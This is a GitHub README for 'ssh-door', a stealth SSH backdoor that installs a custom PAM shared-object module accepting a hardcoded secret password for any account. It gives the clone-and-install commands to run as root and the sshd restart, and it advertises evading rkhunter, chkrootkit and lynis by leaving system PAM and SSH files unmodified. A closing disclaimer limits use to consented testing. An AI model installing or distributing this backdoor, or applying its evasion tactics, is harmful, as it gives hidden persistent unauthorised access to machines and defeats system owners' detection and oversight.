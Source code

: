 ```
                █████          █████
                ░░███          ░░███
  █████   █████  ░███████    ███████   ██████   ██████  ████████
 ███░░   ███░░   ░███░░███  ███░░███  ███░░███ ███░░███░░███░░███
░░█████ ░░█████  ░███ ░███ ░███ ░███ ░███ ░███░███ ░███ ░███ ░░░
 ░░░░███ ░░░░███ ░███ ░███ ░███ ░███ ░███ ░███░███ ░███ ░███
 ██████  ██████  ████ █████░░████████░░██████ ░░██████  █████
░░░░░░  ░░░░░░  ░░░░ ░░░░░  ░░░░░░░░  ░░░░░░   ░░░░░░  ░░░░░

```
A simple stealth SSH backdoor leveraging PAM shared object (.so) injection to bypass authentication and gain SSH access.

# How it works

This script creates a PAM backdoor by injecting a custom `.so` module that intercepts SSH login attempts. Unlike traditional PAM backdoors that modify existing system files (e.g., `pam_unix.so`), this method creates a separate PAM module, making it less detectable.

When a user attempts to SSH into the system, the injected module captures the password. If the entered password matches the predefined secret password (hardcoded at compile time), authentication is granted regardless of system credentials.

# Usage
```bash
git clone https://github.com/flashnuke/ssh-door.git && cd ssh-door
sudo bash ./install.sh <predefined_password>
sudo systemctl restart sshd # or 'sudo service sshd restart' for non-systemd
```
Once the script finishes and sshd service is restarted, simply log into the target machine using `ssh <user>@<ip>` and enter the predefined password.

### Usage Example
<img width="395" alt="image" src="https://github.com/user-attachments/assets/179709d0-b1e2-4ee2-9199-fd27143caa66" />

### Notes
* Avoids direct modification of system PAM files (`/lib/security/pam_unix.so` remains untouched)
* Passes security checks (`lynis`, `chkrootkit`, `rkhunter`), avoiding common backdoor detection methods
* Does not alter SSH configuration files (i.e `~/.ssh/authorized_keys`...), making it harder to spot
* In rare cases PAM is enabled in `/etc/ssh/sshd_config`

  
### Requirements
* Linux system with PAM-based authentication
* Root access
* SSH service (sshd) running on the target machine

# Disclaimer

This tool is only for testing and can only be used where strict consent has been given. Do not use it for illegal purposes! It is the end user’s responsibility to obey all applicable local, state and federal laws. I assume no liability and am not responsible for any misuse or damage caused by this tool and software.

Distributed under the GNU License.
